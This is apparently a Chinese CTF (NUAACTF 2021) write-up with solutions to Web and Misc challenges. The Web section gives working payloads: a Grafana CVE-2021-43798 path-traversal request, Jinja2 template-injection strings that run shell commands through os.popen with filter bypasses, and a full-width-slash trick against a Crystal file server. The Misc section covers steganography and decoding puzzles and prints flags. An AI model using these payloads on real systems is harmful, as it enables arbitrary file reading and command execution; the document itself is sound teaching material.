

[TOC]  

# Web  

##	真的签到 (28 solves)

###	exp

参考答案，请求：`/public/plugins/welcome/../../../../../../../../home/grafana/flag`

###	考点

作为从事信息安全方向的人员，不论是在哪一个企业，对于漏洞的敏感度都肯定需要异于常人，需要日常更新自己的漏洞库知识，哪怕有一点印象都可以，毕竟现在是互联网时代，详情可以在网络上搜索得到，获取信息不能太滞后。

这个题主要是想考察信息安全的同学对于近期 Web 漏洞的关注度，这个 Web 漏洞就是 CVE-2021-43798 （这是一个漏洞编号），这个漏洞在 2021/12/07 号左右在互联网上被披露，NUAACTF 是 2021/12/11 ，日子比较接近，也符合我想考察地同学们对于 Web 漏洞跟进的能力。并且为了降低整体比赛难度，减轻同学们的压力，所以没有设置其他特别复杂的漏洞。

（问题来了，为啥不用 12/09 晚上爆出的 Log4j 漏洞呢？因为忙不过来，环境弄不过来2333

## baby_python

ssti+简单绕过

过滤了eval和os，用拼接绕过或是编码绕过都可以

1.拼接绕过

利用一些可利用的类，读取文件列表


再把它读出来

```
?name={{().__class__.__mro__[1].__subclasses__()[71].__init__.__globals__['o'+'s'].popen('cat ./flllll11111114aaaaaggggggggggggg').read()}}
```

因为环境是python2的，可以使用file类读

```
?name={{().__class__.__mro__[1].__subclasses__()[40]('flllll11111114aaaaaggggggggggggg').read()}}
```

or用`__builtins__`

```
?name={{().__class__.__mro__[1].__subclasses__()[71].__init__.__globals__.__builtins__['open']('flllll11111114aaaaaggggggggggggg').read()}}
```

or改一下通用payload：

```
?name={{ b['ev'+'al']('__import__("o"+"s").popen("cat flllll11111114aaaaaggggggggggggg").read()') }}
```

2.编码绕过

把被过滤的部分base64一下

```
?name={{().__class__.__mro__[1].__subclasses__()[71].__init__.__globals__.__builtins__['ZXZhbA=='.decode('base64')]("X19pbXBvcnRfXygnb3MnKS5wb3BlbignY2F0IGZsbGxsbDExMTExMTE0YWFhYWFnZ2dnZ2dnZ2dnZ2dnJykucmVhZCgp".decode('base64'))}}
```

## Twister

(原定的白给题)
本意就是让修改前端js，运行即可，但是混淆没有做好，可以直接看到请求的文件，所以总结是有两种方法可以解本题
1.将function一串代码复制下来，修改`r=10`，放入控制台中运行，点击按钮就发现能打到随机数，控制台会输出`where is your flag`， 在NetWork中找到f111444g.php并查看cookie即可
2.直接在混淆代码中找到请求的文件，访问，查看cookie即可

##	Make Me Cry (0 solves)

###	exp

参考答案，向 /flag 路由发送以下内容即可

```
POST /flag HTTP/1.1
Host: 118.195.147.196:9216
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

/.／flag
```

###	解题步骤

* 第一步，访问主页，我们可以看到主页列举了当前面目录下的一些文件，

  ```
  你好世界！我做了一个简单的服务器，我经常访问 /flag 路径来读取我需要的文件。这是我当前目录下的文件: ["main", "main.cr", "test.txt", "flag"]
  ```

* 根据题目的描述，我们知道 /flag 路径可能存在**任意文件读取漏洞**，那我们尝试访问 /flag 路径，得到提示

  ```
  你想要 FLAG 吗？尝试向我发送 POST 请求你想要读取的文件名吧，直接发送文件名噢，不需要其他参数。
  ```

* 所以根据描述，我们可以直接向该路由发送一个 POST 参数，例如我们先尝试读取 test.txt

  ```http
  POST /flag HTTP/1.1
  Host: 118.195.147.196:9216
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 8
  
  test.txt
  ```

  我们可以得到 HTTP 响应：

  ```http
  HTTP/1.1 200 OK
  Connection: keep-alive
  Content-Type: text/plain; charset=utf-8
  Content-Length: 87
  
  检查一下是否可以正常读取文件但是不能让坏家伙读我的小秘密。
  ```

* 尝试读取 flag 文件

  ```http
  POST /flag HTTP/1.1
  Host: 118.195.147.196:9216
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 4
  
  flag
  ```

  得到如下 HTTP 响应，得知我们不能直接读取 flag ，所以我们可能得需要找个方法读取 flag

  ```http
  HTTP/1.1 200 OK
  Connection: keep-alive
  Content-Type: text/plain; charset=utf-8
  Content-Length: 27
  
  You can't get flag directly
  ```

* 当然你可以尝试读取其他目录文件，比如 `/etc/passwd` ，但是读不了，这里就不做演示了，会提示没有找到该文件，我们这里直接读取 main.cr 代码。

* 读取到代码之后就是代码审计的部分了，简单通过阅读了解，我们知道这是 crystal 语言写的 Web 服务，并且通过搜索，代码并不多，简单学习[ crystal 语言的文档](https://crystal-lang.org) 我们可以知道这是一个比较新兴的类 ruby 类型的语言。为了方便同学们理解代码，我简单写了一下注释

```ruby
# A very basic HTTP server
require "http/server"
def normalize(data)												#定义一个函数
	tmp = ""													#定义一个变量
	data.each_char do |char|									#对 data 这个字符串变量进行挨个循环处理
		if 65374 >= char.ord >= 65281							#如果这个字符对应的十进制在 [65281,65374] 这个区间
			tmp += (char.ord - 65248).chr						#进行减法，并再返回减法后对应的字符。并拼接上 tmp 变量原有的字符串
		elsif 126 >= char.ord >= 33								#如果这个字符对应的十进制在 [33,126] 这个区间
			tmp += char											#直接拼接上 tmp 变量原有的字符串
		end
	end
	return tmp													#返回 tmp 字符串变量
end

server = HTTP::Server.new do |context|
	context.response.content_type = "text/plain; charset=utf-8"	#设置 HTTP 响应头部
	if context.request.path == "/flag"							#访问 /flag 路径做以下操作
		if context.request.method == "POST"						#如果是 POST 请求做以下操作
			begin												# begin 关键字是 crystal 错误捕捉机制，可以理解为 try/catch
				filename = context.request.body.not_nil!.gets_to_end	#获取 POST 正文的内容
				filename = File.basename filename				#将 filename 作为参数传递给 File.basename 函数，该函数用来获取基础文件名，例如传入 /etc/passwd 会返回 passwd
				filename = normalize filename					#使用 normalize 函数对 filename 变量进行处理
                if File.match?("*fl*", filename)				#使用 File.match 函数对 filename 变量进行 *fl* 正则匹配
					context.response.print "You can't get flag directly"  #如果正则匹配上了对应内容，则返回错误的 HTTP 响应
				else
					data = File.read(filename)					#如果不匹配，则使用 File.read 函数读取对应的文件内容
					context.response.print data					#将文件内容作为 HTTP 响应返回
				end    
			rescue
				context.response.print "File not Found"			# rescue 关键字捕捉到错误后，则将这行字符串作为 HTTP 响应返回
			end
		else
			context.response.print "你想要 FLAG 吗？尝试向我发送 POST 请求你想要读取的文件名吧，直接发送文件名噢，不需要其他参数。"
		end
	elsif context.request.path == "/"
		dir = Dir.children("/app/").to_s
		context.response.print "你好世界！我做了一个简单的服务器，我经常访问 /flag 路径来读取我需要的文件。这是我当前目录下的文件: " + dir
	end
end

server.bind_tcp "0.0.0.0", 80	#让 HTTP 服务监听在 80 端口上
server.listen					#启动 HTTP 服务
```

我们可以根据提示或者理解 `normalize` 函数知道，这个函数中对于十进制大于 65281 的处理，是为了解决全角字符的问题，这里使用了简单粗暴的方法，将全角字符转换成了半角字符，我们可以通过百度百科的表格看出来：https://baike.baidu.com/item/%E5%85%A8%E8%A7%92/9323113?fr=aladdin

| **ASCII** | **全角字符** | **Unicode** | **半角字符** | **Unicode** |
| --------- | ------------ | ----------- | ------------ | ----------- |
| 0x2f      | /            | U+ff0f      | /            | U+002f      |

上面这个例子，左边这个斜杠的全角字符 0xff0f 对应的十进制就是 65295 ，右边半角字符对应的则是 47 ，所以 65295-47=65248 ，所以正好是`normalize`函数使用的数值，就是为了将全角字符转换为半角字符。

知道`normalize`函数具体用来干什么之后，我们回到正则表达式处的代码，这里使用`*fl*`，表示匹配中间有 fl 两个字符的所有字符串，比如 xflag / flag 等，如果匹配到了则会拒绝用户请求，匹配不上则会进行读取相应的文件。但是已知我们当前目录下存在 flag 文件，那么我们有没有办法，让这个正则表达式匹配不上，让其读取 flag 文件呢？

阅读 `File.match` 这个函数文档，或者根据提示我们可以从文档中知道

> \* matches an unlimited number of arbitrary characters excluding `/`
>
> Only `/` is recognized as path separator in both *pattern* and *path*.

这句话的意思是，对于 * 星号来说，这里比较特殊，一般正则表达式星号会匹配任意字符，但是这里文档标明了，星号不会匹配斜杠这个字符，所以当我们如果传入`./flag`的时候，`File.match`这个函数就匹配不上了，就会进入到`File.read(filename)`函数进行文件读取，而`./flag`表示当前目录下的 flag 文件，所以就可以拿到 flag 了。

看到这里你是不是以为就可以了呢？当你尝试使用`./flag`的时候会发现，`File.basename`将`./flag`转换成了`flag`去掉了我们后面需要的斜杠。

看到这里你是不是以为又不可以了呢？我们看回`normalize`函数，并且注意到`File.basename`函数是在`normalize`函数之前，那我们是不是可以使用一个全角字符绕过`File.basename`函数呢？因为对于一般情况下来说，全角字符会被视为一般的字符串，比如上面的斜杠对应的全角字符，他在这里不会被视为斜杠，而会被视为一个普通的看起来像斜杠一样的字符串，所以`File.basename`不会将其视为半角的斜杠，就不会把他去掉了。

然后经过`File.basename`处理后的全角字符会经过`normalize`函数变成半角字符的斜杠！这样传入到`File.match`函数的时候就是半角字符的斜杠了！我们就可以绕过正则表达式的检测了！好耶！

所以我们直接复制全角字符的斜杠放到 burp 里面发送就好啦，是不是很简单呢？只需要一行代码哎


###	考点

* crystal lang 。新语言的快速学习能力以及查阅文档能力
* 基础的正则表达式。
* 代码审计能力

这个题我的预期是校外队伍可能会有 1-5 支队伍应该可以做出来，校内比较悬，但是即使最后在给到了文档详细位置的地方还是没有人做出来让我有些意外。

我认为代码审计能力对于任何一个方向的安全从业者来说，都是必备的能力之一；虽然这个 crystal lang 比较冷门，但是正是冷门，大家都没学过，才能考察出大家对于新语言的快速学习能力，文档阅读能力，我觉得这也是**竞赛**的目的之一，就是为了锻炼、考察选手的能力，而且这几个考点基本上都是阅读文档都能找到的，所以并不算特别的难（今后的竞赛道路还远呢，竞赛题会更险恶）。

所以，我也希望大家在精进代码能力的同时，不要忘了语言毕竟是工具，吃透一门语言当然好，但是一门语言并不会永远都是热门，以后可能在工作、学习上需要你去接触其他语言，一些热门语言还好，有成熟的文档、完善的社区生态，要是冷门语言该怎么办？要是这个语言甚至没有文档怎么办？摆烂直接弃用当然是一种解决方式，但是如果真到了不能弃用的地步，那你会怎么去解决这个问题呢？

题目归题目，希望大家在今后的竞赛生涯中，不要死背考点，真正的 CTF 并不像寻常考试一样会有一些常考的热门考点，反而更多偏向于考察选手快速学习的能力，出题人很有可能就像这个题一样出一个你从来没见过的东西，让你在短期学习掌握一些知识解决这个问题，这也是 CTF 的乐趣所在。

Anyway，祝贺本次竞赛取得优异成绩的队伍，暂时落后的队伍也不必灰心，希望各位选手能从本次的竞赛中有所收获~

# Misc

## 我们生活在南京（一）

用 Audacity 反转声音即可。

## 我们生活在南京（二）

根据提示，发现程序中被插入了高频正弦波，可以算出来频率是 1000Hz，添加一个相位相反的新正弦波抵消即可。

## 我们生活在南京（三）

根据提示，发现 `NU` 后面的字符都比特翻转了，还原即可，之后得到一个音频文件，还是根据提示可以知道国际空间站常用 PD-120 模式发送 SSTV，用相应的软件（比如 Robot36）解码即可。


## Try2FindMe

> ***1 solve, 1000 pts***
>
> **出题人：**[MiaoTony](https://miaotony.xyz/)
>
> 喵喵能有什么秘密呢？
> 快来找一找吧！
>
> 附件地址： https://www.lanzouw.com/iMbHaxgzqvg
>
> > **Hint1:** 嘻嘻，如果差一半 key 的话，悄悄告诉你，有隐写！
> >
> > **Hint2:** pyc 隐写 python 3.7.11
> >
> > **Hint3:** 最后的 AES 跑不出来可能是 python 依赖版本不一样导致锅了，问题不大，找个在线的 AES 解密就行

### 解题步骤

开局是一张猫猫图。


图片种，binwalk / foremost / 人工手动分离得到一个压缩包，解压得到一个 `1.pyc`。


pyc 字节码反编译可以用 uncompyle6 或者 decompyle3

```bash
uncompyle6 -o 1.py 1.pyc
```

甚至这里可以用 [在线的反编译](https://tool.lu/pyc/)（

源码如下

```python
from Crypto.Cipher import AES
import binascii

def decrypt(x, cipher):
    key = x + 'n0lve3t6r1s'
    try:
        aes = AES.new(key.rjust(24, 'A'), AES.MODE_ECB)
        cipher = binascii.unhexlify(cipher)
        flag = aes.decrypt(cipher).decode()
        return flag
    except:
        return ''


def main():
    c = '29426dfee9b0f158983ad996b0b7a25e3fdf85c3df187b697e3b639c64f452f21c95a941542aa530199083baf296d805'
    k = input('Please input your key: ')
    flag = decrypt(k, c)
    if 'flag' in flag:
        print('Wow, you find it!!!')
    else:
        print('Oh no!!!')


if __name__ == '__main__':
    main()
```

发现还差了 AES 加解密用到的 key 的一部分。

根据提示，考虑是 pyc 隐写 https://github.com/AngelKitty/stegosaurus

然而直接跑可能会跑不出来，会报错 `ValueError: bad marshal data`



于是又根据提示是 python 3.7.11（其实可以看 magic number），是高版本的 python 了，根据经验 header 长度是 16.

于是根据报错的提示魔法改一改第124行这里。


运行得到隐写的结果

```bash
$ python3 stegosaurus.py 1.pyc -x         
Extracted payload: bytearray(b'k5fgb2eur5sty')
```

cipher: `29426dfee9b0f158983ad996b0b7a25e3fdf85c3df187b697e3b639c64f452f21c95a941542aa530199083baf296d805`

input 为 pyc 隐写的 `k5fgb2eur5sty`

直接运行 py / pyc 需要 Crypto 库，最好用 [pyenv](https://github.com/pyenv/pyenv) 新建一个 python 3.7.11 的虚拟环境，然后在里面装。

```bash
pip3 install pycryptodome
```

比赛的时候有选手反馈跑出来发现还是 `Oh no!!!`，看了一下发现可能是 python 以及依赖版本不对应，str 处理的时候出了点锅。

于是放了个 hint 说可以找个在线工具来解。

按照代码的意思拼接得到 AES key: `k5fgb2eur5styn0lve3t6r1s`

最后 AES ECB 解密得到 flag

`flag{M15c_1s_r34l1y_fuNny_ha233}`


（这里用的是 http://aes.online-domain-tools.com/


### 出题思路

校赛来了，要出题了，看队里其他师傅出了比较常规的 LSB、emoji-aes、base编码、压缩包伪加密、音频隐写什么的，以及《我们生活在南京》系列无线电的题目，在想咱出点什么比较好呢。

一想，今年强网杯线上赛的时候就 [有一道名叫 ExtremelySlow 的题目包含了 pyc 隐写](https://miaotony.xyz/2021/06/28/CTF_2021qiangwang/#ExtremelySlow)，当时用到的是 python 3.10，由于现成的反编译工具还不支持那么高版本直接还原出 python 源码，和队友手逆特别辛苦 *（摊手.jpg*

**于是就出一题 pyc 隐写吧！**

但是毕竟是校赛，不想出得太难，就没考虑用特别高版本的 Python，比如 Python 3.9 3.10 那种版本，最后是整了个 python3.7.11 这个相对而言比较新的版本。这样的话不需要选手手逆 pyc，但是 stegosaurus 不能直接用需要魔改，考点就在这里了。

比赛的时候校内也有几队把 pyc 反编译好了，也知道用 stegosaurus 隐写的了，但还是卡在这个魔改 header 长度上了。校外的话 Z 师傅发现了这个问题改了之后成功得到了隐写的密钥，不过发现跑不通，所以最后放了个提示说可以拿在线工具来了。


## ItIsMath

> ***1 solve, 1000 pts***
>
> **出题人：**[MiaoTony](https://miaotony.xyz/)
>
> It is math, but it is not only math. 
>
> Maybe you can find something in the domain ~~**itismath.asurictf2021.miaotony.xyz**~~ 
>
> Do you remember the last NUAACTF? 
>
> Update: The domain is changed to **itismath2.asurictf2021.miaotony.xyz**
>
> > **Hint1:** domain TXT
> >
> > **Hint2:** Update: The domain is changed to **itismath2.asurictf2021.miaotony.xyz**
> >
> > 原域名得到含有 `ctf.asuri.club` 的字符串可以找出题人换文件
> >
> > **Hint3:** 线性回归

### 解题步骤

这里看更新后的域名吧。

首先这个域名是访问不了的，比赛群里有选手问了，回复了说是正常的。当然进一步看发现甚至没有A、AAAA解析。

那自然想到是 TXT 解析了，后面也放了 hint。

```bash
$ dig itismath2.asurictf2021.miaotony.xyz TXT +short @1.0.0.1 | sed 's/[" ]//g'
OBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUWWYJAOBUXA2JAOBUSA4DJOBUSA4DJEBYGSIDQNEQHA2LQNEQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJMNUHKIDQNFRWQ5JAOBUWG2DVEBYGSY3IOUQGWYJAMNUHKIDQNFYGSIDQNFYGSIDQNFYGSIDQNFYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNFVWCY3IOUQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUWWYLDNB2SA23BEBVWCIDLMEQGWYJANNQSA23BEBVWCIDLMEQGWYJANNQSA23BEBYGS23BMNUHKIDQNEQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNFVWCY3IOUQGWYJANNQSA23BEBVWCIDLMEQGWYJAOBUWWYLDNB2SA23BEBVWCIDLMEQGWYJANNQSA23BEBVWCIDLMEQGWYJANNQSA23BEBVWCIDQNFVWCY3IOUQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNFVWCY3IOUQGWYJANNQSA23BEBVWCIDLMEQGWYJANNQSA23BEBVWCIDLMEQGWYJANNQSA4DJNNQWG2DVEBYGSY3IOUQHA2LDNB2SA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGS23BMNUHKIDQNFYGSIDQNFYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGS23BMNUHKIDLMEQGWYJANNQSA23BEBVWCIDLMEQGWYJANNQSA23BEBVWCIDLMEQGWYJANNQSA23BEBVWCIDLMEQGWYJAOBUWWYLDNB2SA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNEQHA2LLMFRWQ5JANNQSA23BEBVWCIDLMEQGWYJANNQSA23BEBVWCIDLMEQGWYJANNQSA23BEBVWCIDLMEQGWYJAOBUWWYLDNB2SA4DJEBYGSIDQNFVWCY3IOUQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJNNQWG2DVEBYGSY3IOUQHA2LDNB2SA4DJNNQWG2DVEBYGS4DJEBYGS4DJEBVWCIDLMEQGWYJANNQSA23BEBVWCIDLMEQGWYJANNQSA23BEBVWCIDQNFVWCY3IOUQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNEQHA2JAOBUSA4DJEBYGSIDQNEQHA2LLMFRWQ5JAOBUWWYLDNB2SA===
```

很明显是 base32，解密一下

```bash
$ dig itismath2.asurictf2021.miaotony.xyz TXT +short @1.0.0.1 | sed 's/[" ]//g' | base32 -d
pi pi pi pi pi pi pi pi pi pi pika pipi pi pipi pi pi pi pipi pi pi pi pi pi pi pi pipi pi pi pi pi pi pi pi pi pi pi pichu pichu pichu pichu ka chu pipi pipi pipi pipi pi pi pi pi pi pikachu pi pi pi pi pi pi pi pi pi pi pi pikachu ka ka ka ka ka ka ka ka ka ka ka pikachu pi pi pi pi pi pi pi pi pi pi pikachu ka ka ka ka ka ka pikachu ka ka ka ka ka ka ka ka ka ka ka ka pikachu pi pi pi pi pi pi pi pi pi pi pi pi pi pi pi pi pi pi pi pikachu ka ka ka ka ka ka ka ka ka ka ka ka pikachu pichu pichu pi pi pi pi pi pi pi pi pi pi pi pi pi pi pi pi pikachu pipi pipi pi pi pi pi pi pi pi pi pi pi pi pi pi pi pikachu ka ka ka ka ka ka ka ka ka ka ka ka ka ka ka ka ka pikachu pi pi pi pi pi pi pi pi pi pi pi pi pi pikachu ka ka ka ka ka ka ka ka ka ka ka ka ka ka ka pikachu pi pi pikachu pi pi pi pi pi pi pi pikachu pichu pichu pikachu pipi pipi ka ka ka ka ka ka ka ka ka ka ka pikachu pi pi pi pi pi pi pi pi pi pi pi pi pi pi pi pikachu pikachu
```

啊，是一堆的 pikachu！

于是想到是 [Pikalang / pikalang-language](https://www.dcode.fr/pikalang-language)，这个比赛的时候也在比赛群里放了 hint。

> Tool for decoding / encoding in Pikalang. Pikalang (or Pikachu language) is a minimalist programming language based on the Brainfuck for which  it substitutes the signs by the syllables of Pikachu.
>
> Pikalang is a programming language based on the [BrainFuck](https://www.dcode.fr/brainfuck-language) language but whose operators are substituted by the cries of the Pokemon Pikachu. Thus, from a code written in [BrainFuck](https://www.dcode.fr/brainfuck-language), the following table helps to match the code in Pikalang:
>
> | +    | pi      |
> | ---- | ------- |
> | -    | ka      |
> | >    | pipi    |
> | <    | pichu   |
> | [    | pika    |
> | ]    | chu     |
> | .    | pikachu |
> | ,    | pikapi  |
>
> Example:  The Pikalang program `pi pi pi pi pi pi pi pi pi pi pika pipi pi pipi pi pi pi pipi pi pi pi pi pi pi pi pipi pi pi pi pi pi pi pi pi pi pi pichu pichu pichu pichu  ka chu pipi pipi pipi pi pi pi pi pi pi pi pi pi pi pikachu pipi pi pi  pi pi pi pi pi pi pi pi pi pikachu ka ka ka ka pikachu ka ka ka ka ka ka pikachu pi pi pi pi pi pi pi pi pikachu pi pi pikachu ka pikachu`  corresponds to BF code `++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++++++.>+++++++++++.----.------.++++++++.++.-.` and should output the [ASCII](https://www.dcode.fr/ascii-code) characters `Pokemon`
>
> 其实就是 BrainFuck 换了个编码表（

直接在网页上执行，得到另一个域名 itismath.vercel.app


访问得到一堆数字，或者说一个矩阵。

```
[(251, 25711.438), (393, 40195.541), (177, 18162.627), (318, 32544.988), (471, 48151.807), (170, 17448.789), (469, 47947.733), (428, 43765.255), (65, 6738.41), (291, 29790.762), (350, 35809.283), (151, 15510.828), (203, 20815.487), (196, 20101.064), (228, 23365.239), (34, 3576.204), (150, 15408.508), (53, 5514.259), (392, 40092.417), (212, 21732.801), (226, 23160.389), (362, 37032.44), (314, 32137.56), (283, 28975.046), (437, 44683.716), (463, 47335.627), (176, 18060.901), (182, 18672.449), (245, 25098.485), (322, 32953.074)]
[(315, 30659.028), (79, 7766.519), (349, 33957.654), (294, 28622.323), (399, 38806.382), (40, 3983.567), (54, 5341.251), (313, 30464.785), (135, 13198.723), (483, 46955.973), (391, 38032.457), (71, 6990.395), (51, 5050.41), (311, 30271.461), (457, 44432.214), (392, 38128.872), (320, 31143.177), (258, 25129.776), (472, 45887.894), (18, 1849.403), (206, 20085.75), (442, 42978.708), (195, 19018.715), (74, 7281.578), (306, 29785.452), (116, 11355.545), (491, 47730.532), (172, 16787.549), (52, 5147.612), (316, 30756.23)]
[(418, 51471.916), (432, 53194.178), (67, 8298.618), (470, 57869.16), (473, 58237.061), (78, 9651.542), (350, 43108.093), (24, 3009.174), (57, 7068.255), (45, 5592.309), (132, 16293.547), (312, 38433.309), (111, 13710.512), (196, 24165.246), (162, 19983.339), (113, 13956.568), (249, 30685.306), (466, 57377.563), (76, 9405.55), (456, 56145.491), (381, 46920.932), (32, 3993.124), (61, 7560.342), (22, 2763.37), (200, 24657.32), (332, 40895.039), (20, 2517.183), (339, 41754.346), (7, 918.143), (427, 52579.973)]
[(491, 33442.231), (458, 31197.978), (175, 11952.617), (415, 28273.888), (59, 4064.374), (384, 26165.806), (461, 31401.368), (114, 7804.803), (298, 20316.548), (259, 17665.479), (7, 528.412), (314, 21404.044), (256, 17460.416), (353, 24056.761), (243, 16577.595), (422, 28748.164), (332, 22628.649), (421, 28681.826), (313, 21337.49), (156, 10660.488), (202, 13789.358), (198, 13516.644), (151, 10320.372), (216, 14741.23), (291, 19841.042), (288, 19637.266), (425, 28954.543), (91, 6240.096), (434, 29565.843), (355, 24192.317)]
[(72, 7400.724), (79, 8114.246), (179, 18314.96), (322, 32901.375), (433, 44223.767), (245, 25047.021), (399, 40754.275), (491, 50139.317), (125, 12806.721), (182, 18620.374), (259, 26475.651), (325, 33207.992), (463, 47283.006), (368, 37593.175), (427, 43612.087), (291, 29738.352), (213, 21782.567), (442, 45142.345), (16, 1688.087), (283, 28923.066), (305, 31166.391), (339, 34635.62), (167, 17090.158), (223, 22802.122), (416, 42489.428), (10, 1076.395), (489, 49935.196), (449, 45855.695), (371, 37898.19), (94, 9644.64)]
[(116, 11764.956), (494, 49944.273), (303, 30651.417), (451, 45600.484), (408, 41257.93), (422, 42672.458), (19, 1967.13), (102, 10350.819), (496, 50146.609), (347, 35096.092), (228, 23076.577), (186, 18835.061), (270, 27318.813), (53, 5401.371), (421, 42570.209), (407, 41157.05), (317, 32066.904), (276, 27925.013), (259, 26207.727), (453, 45801.337), (446, 45095.346), (166, 16814.285), (323, 32672.829), (178, 18026.726), (60, 6108.255), (12, 1260.339), (29, 2977.287), (450, 45498.85), (492, 49741.281), (218, 22066.439)]
[(370, 37785.878), (278, 28401.607), (166, 16977.836), (224, 22894.401), (26, 2697.274), (110, 11265.689), (39, 4023.362), (379, 38703.214), (249, 25443.357), (266, 27178.394), (204, 20853.983), (179, 18303.84), (474, 48394.45), (444, 45334.086), (254, 25954.622), (420, 42885.767), (338, 34522.488), (22, 2289.323), (58, 5961.562), (15, 1575.394), (315, 32175.988), (29, 3003.186), (17, 1779.083), (465, 47477.351), (119, 12183.245), (363, 37072.61), (19, 1983.228), (395, 40336.878), (164, 16773.53), (380, 38805.324)]
[(254, 12543.323), (44, 2253.348), (236, 11662.079), (395, 19453.074), (91, 4556.232), (315, 15532.771), (439, 21608.869), (32, 1665.213), (380, 18719.16), (272, 13425.484), (27, 1420.445), (356, 17543.092), (371, 18277.529), (353, 17395.328), (295, 14553.08), (338, 16659.262), (183, 9065.033), (374, 18424.299), (142, 7055.199), (234, 11564.408), (8, 489.253), (98, 4899.279), (120, 5977.687), (302, 14895.733), (390, 19208.331), (267, 13181.005), (423, 20825.516), (156, 7741.71), (122, 6075.745), (21, 1126.293)]
[(150, 8016.821), (227, 12098.139), (261, 13900.307), (162, 8652.414), (95, 5101.549), (272, 14483.247), (43, 2345.185), (63, 3405.18), (476, 25294.643), (294, 15648.955), (481, 25560.142), (219, 11673.944), (163, 8705.953), (7, 437.04), (466, 24764.492), (147, 7857.726), (36, 1974.507), (490, 26038.59), (202, 10773.071), (330, 17556.469), (467, 24819.432), (23, 1285.311), (32, 1762.25), (85, 4571.556), (374, 19889.562), (355, 18882.738), (72, 3882.575), (48, 2610.335), (329, 17504.714), (364, 19358.515)]
[(257, 14718.98), (475, 27144.037), (81, 4686.244), (109, 6282.843), (361, 20647.935), (50, 2919.492), (135, 7764.347), (21, 1266.265), (216, 12382.091), (430, 24580.106), (491, 28057.66), (87, 5028.474), (19, 1152.178), (382, 21844.316), (104, 5997.644), (232, 13293.29), (416, 23783.295), (342, 19564.978), (18, 1095.401), (176, 10102.126), (309, 17682.211), (157, 9019.065), (54, 3147.231), (158, 9076.081), (69, 4002.583), (127, 7308.433), (379, 21673.285), (431, 24638.424), (473, 27030.564), (90, 5199.474)]
[(420, 21473.665), (265, 13568.853), (355, 18158.695), (301, 15405.389), (443, 22646.266), (120, 6173.475), (24, 1277.359), (305, 15609.581), (380, 19433.319), (229, 11733.252), (52, 2705.139), (410, 20964.551), (91, 4694.106), (266, 13620.62), (307, 15711.523), (459, 23463.426), (213, 10916.687), (180, 9233.946), (236, 12089.643), (376, 19230.199), (440, 22494.488), (125, 6428.384), (31, 1634.331), (426, 21781.387), (153, 7856.98), (340, 17393.99), (33, 1736.392), (252, 12905.881), (386, 19739.766), (172, 8825.891)]
[(342, 15488.351), (135, 6172.774), (459, 20752.223), (358, 16207.357), (478, 21608.604), (103, 4732.814), (137, 6262.325), (269, 12203.375), (349, 15802.51), (411, 18594.199), (256, 11618.489), (270, 12248.129), (26, 1267.293), (17, 862.047), (361, 16342.428), (319, 14453.75), (427, 19312.302), (88, 4057.426), (328, 14859.053), (476, 21518.765), (399, 18053.591), (149, 6802.205), (28, 1357.121), (201, 9142.807), (50, 2347.035), (470, 21248.937), (97, 4462.399), (66, 3067.299), (344, 15578.997), (374, 16927.668)]
[(212, 21514.787), (184, 18686.931), (415, 42017.302), (140, 14242.375), (275, 27877.595), (479, 48482.414), (441, 44645.368), (166, 16868.404), (205, 20807.994), (257, 26059.839), (360, 36463.631), (15, 1617.407), (357, 36159.891), (35, 3637.187), (255, 25858.387), (12, 1314.057), (288, 29191.522), (390, 39493.551), (267, 27069.547), (492, 49795.329), (269, 27271.675), (470, 47573.564), (347, 35149.842), (408, 41311.623), (71, 7273.644), (142, 14444.819), (456, 46158.953), (174, 17676.401), (474, 47977.879), (280, 28383.58)]
[(404, 19495.358), (12, 678.245), (270, 13062.555), (237, 11478.449), (283, 13687.52), (248, 12006.987), (94, 4614.53), (419, 20214.805), (61, 3030.327), (21, 1110.239), (482, 23240.86), (49, 2454.045), (382, 18439.282), (426, 20550.769), (221, 10710.661), (155, 7542.195), (416, 20071.565), (55, 2742.353), (276, 13351.515), (271, 13110.676), (152, 7398.707), (405, 19542.495), (57, 2838.079), (101, 4950.13), (316, 15270.601), (459, 22135.203), (183, 8886.061), (193, 9366.336), (319, 15415.446), (344, 16615.058)]
[(327, 21683.004), (138, 9208.802), (495, 32770.797), (488, 32308.797), (385, 25512.246), (21, 1486.417), (92, 6172.598), (394, 26106.215), (366, 24257.571), (115, 7690.604), (258, 17129.751), (299, 19834.484), (110, 7360.251), (252, 16732.208), (392, 25973.952), (260, 17260.445), (447, 29602.432), (335, 22212.109), (332, 22012.98), (424, 28084.729), (68, 4588.479), (98, 6568.411), (402, 26632.436), (353, 23399.551), (204, 13565.172), (113, 7558.401), (274, 18184.341), (193, 12838.195), (342, 22673.414), (361, 23927.43)]
